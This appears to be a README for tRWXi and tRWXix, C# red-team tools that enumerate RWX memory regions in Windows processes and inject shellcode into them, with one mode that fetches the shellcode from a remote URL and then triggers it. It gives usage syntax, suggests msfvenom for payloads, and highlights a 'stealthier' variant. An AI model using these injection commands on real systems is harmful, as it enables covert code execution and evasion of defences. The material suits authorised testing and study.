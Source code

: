 # tRWXi

trovent RWX injector

### Description
We are all familiar with the concept of process injection through the RWX memory region.\
The **tRWXi.exe** tool is a simple implementation of this in C#.

For a more stealthy mode, see the implementation of the **tRWXix.exe** tool described below. 

### Usage
```
Usage:
        .\tRWXi.exe /enumerate                                                              --> only enumerate
        .\tRWXi.exe /inject  /pid=<pid> /address=<hex address> /url=<remote shell code>     --> inject a shellcode from remote source into the RWX region 
        .\tRWXi.exe /inject  /pid=<pid> /address=<hex address> /data=<hex code>             --> inject a shellcode as a parameter into the RWX region
        .\tRWXi.exe /read    /pid=<pid> /address=<hex address> /size=<size>                 --> read a content of memory address
        .\tRWXi.exe /trigger /pid=<pid> /address=<hex address>                              --> trigger code execution from a memory address
```

### Example
- Generate a shellcode in a numeric format (msfvenom -f num):
![shellcode_format](./_readme.d/01-injector-2.png)
- Enumerate the RWX memory regions in all processes that the current user can access:
![RWX enumeration](./_readme.d/01-injector-3.png)
- Inject a shellcode into the RWX region (address:0x1CD1F910000) of the powershell process (PID:6772) and trigger it:
![shellcode_injection](./_readme.d/01-injector-4.png)

# tRWXix

tRWXi functionality w/ NtApiDotNet library

### Description
Same functionality as of **tRWXi**.\
Pure [**NtApiDotNet**](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/tree/main/NtApiDotNet) implementation for less visibility.\
For PS scripting: use [**NtObjectManager**](https://www.powershellgallery.com/packages/NtObjectManager/2.0.1) module, which utilizes NtApiDotNet to expose NT object manager.

### Usage
```
Usage:
        .\tRWXi.exe /enumerate                                                              --> only enumerate
        .\tRWXi.exe /inject  /pid=<pid> /address=<hex address> /url=<remote shell code>     --> inject a shellcode from remote source into the RWX region 
        .\tRWXi.exe /inject  /pid=<pid> /address=<hex address> /data=<hex code>             --> inject a shellcode as a parameter into the RWX region
        .\tRWXi.exe /read    /pid=<pid> /address=<hex address> /size=<size>                 --> read a content of memory address
        .\tRWXi.exe /trigger /pid=<pid> /address=<hex address>                              --> trigger code execution from a memory address
```

### Example
- Inject the shellcode in a process from a remote web server and trigger its execution:
![shellcode_format](./_readme.d/02-injector-1.png)
- Read the modified address:
![RWX enumeration](./_readme.d/02-injector-2.png)
- Trigger the memory region w/ a shellcode inside it
![RWX enumeration](./_readme.d/02-injector-3.png)
